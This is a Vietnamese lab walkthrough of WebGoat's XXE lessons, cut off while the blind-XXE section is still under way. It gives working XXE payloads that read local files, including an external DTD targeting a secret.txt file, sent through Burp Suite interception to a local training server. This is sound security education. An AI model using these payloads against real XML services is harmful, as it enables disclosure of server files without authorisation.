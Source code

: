 ```yaml
---
title: "(A5) Security Misconfiguration - XXE - Webgoat"
tag: "webgoat"
subtitle: " 🐐
  Bài viết này mình sẽ hướng dẫn các bạn làm phần (A5) Security Misconfiguration - XXE"
date: "26-3-2024"
id: "17"
---
```


- XXE (XML external entity) hay tấn công thực thể bên ngoài XML là lỗ hổng lợi dụng tính năng phân tích cú pháp của XML dùng để phân tích cú pháp đầu vào XML từ người dùng. Từ đó kẻ tấn công có thể truy cập đến các tệp cục bộ, chạy các lệnh, quét các dịch vụ và các cổng nội bộ, truy cập mạng nội bộ, từ đó có thể thực hiện 1 cuộc tấn công DOS đến máy chủ dễ bị khai thác

## 1. Let's try

- Khởi động Brup Suite và mở WebGoat trong tình duyệt của Brup Suite:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419324/WebGoat/H67_awhxrt.png)

- Bật Intercept trên Brup Suite.
- Nhấn Submit trên WebGoat và mở Brup Suite xem ta sẽ thấy được Request:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419324/WebGoat/H68_ibvlkr.png)

- Thay đổi XML trong Request theo code bên dưới và nhấn Forward.

```xml
<?xml version="1.0"?>
<!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///C:/">]>
<comment>
   <text>&xxe;</text>
</comment>
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419324/WebGoat/H69_ww9c7b.png)

- Sau đó quay trở lại WebGoat đã tự động cập nhật hoàn thành:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419325/WebGoat/H70_ifp6sa.png)

## 2. Modern REST framework

- Khởi động Brup Suite và mở WebGoat trong tình duyệt của Brup Suite:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419325/WebGoat/H71_osyu6x.png)

- Bật Intercept trên Brup Suite.
- Nhấn Submit trên WebGoat và mở Brup Suite xem ta sẽ thấy được Request:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419325/WebGoat/H72_ctae5o.png)

- Thay đổi `application/json` trở thành `application/xml`, và thêm đoạn code XML bên dưới, sau đó nhấn Forward:

```xml
<?xml version="1.0"?>
<!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///C:/">]>
<comment>
   <text> &xxe;</text>
</comment>
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419325/WebGoat/H73_ygsmoa.png)

- Sau đó quay trở lại WebGoat đã tự động cập nhật hoàn thành:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419326/WebGoat/H74_q6zyeh.png)

## 3. Blind XXE assignment

- Vào trang: http://127.0.0.1:9090/WebWolf/files

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419326/WebGoat/H75_ck9obo.png)

- Tạo một file tên là ** attack.dtd** (nội dung file là đoạn code bên dưới) và Upload nó lên WebWolf:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY attackxxe SYSTEM 'file:///C:\Users\asus\.webgoat-2023.8\XXE\theviblog\secret.txt'>
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419326/WebGoat/H76_fxvszi.png)

- Bật Intercept trên Brup Suite.
- Nhấn Submit trên WebGoat, trên Brup Suite ta sẽ thấy được Request:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419339/WebGoat/H77_hbu1oo.png)
Còn tiếp...
